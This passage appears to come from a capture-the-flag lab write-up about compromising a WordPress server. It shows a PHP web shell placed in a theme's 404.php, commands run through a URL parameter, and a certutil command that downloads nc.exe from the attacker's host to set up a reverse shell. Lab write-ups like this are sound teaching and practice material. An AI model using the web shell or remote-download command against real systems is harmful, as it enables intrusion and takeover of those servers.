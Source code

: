 I thought this was unusual, as this method has worked for me before. After a little digging, I discovered that the modified page was returning a 500 HTTP response code - `Internal Server Error`. I found this in the Firefox dev tools, and the same in Burp. I then used the KISS principle - Keep It Simple Stupid. Removed all the content on the `404.php` page, and just put in my code:

```none
<?php system($_REQUEST["cmd"]) ?>
```

And reloaded the target URL:

```none
http://10.10.10.29/wordpress/wp-content/themes/twentynineteen/404.php?cmd=whoami
```

Success! Command execution. But unsure why this worked and the other approach didn't? Maybe the theme is broken somehow?

![Modified WordPress theme and command execution](screenshots/80_wordpress_theme_codeexecution.png)

From here the goal is to get a reverse shell - so we can make some progress. I set up Burp, and caught a request to the server. Then started to try to get a foothold. After some trial and error, the approach I used was to upload netcat, and get a reverse shell that way. Mainly because I couldn't get a PowerShell reverse shell working. First, leverage `certutil.exe` to upload a `nc.exe` binary. This was hosted using a Python HTTP server (`python3 -m http.server 8000`). Then form a request to upload `nc.exe` to the target.

```none
cmd=certutil.exe -urlcache -f http://10.10.14.51:8000/nc.exe nc.exe
```

Make sure to URL encode. This web server is picky and didn't like any weird characters - including spaces. Then, verify that `nc.exe` was uploaded:

```none
http://10.10.10.29/wordpress/wp-content/themes/twentynineteen/404.php?cmd=dir
```
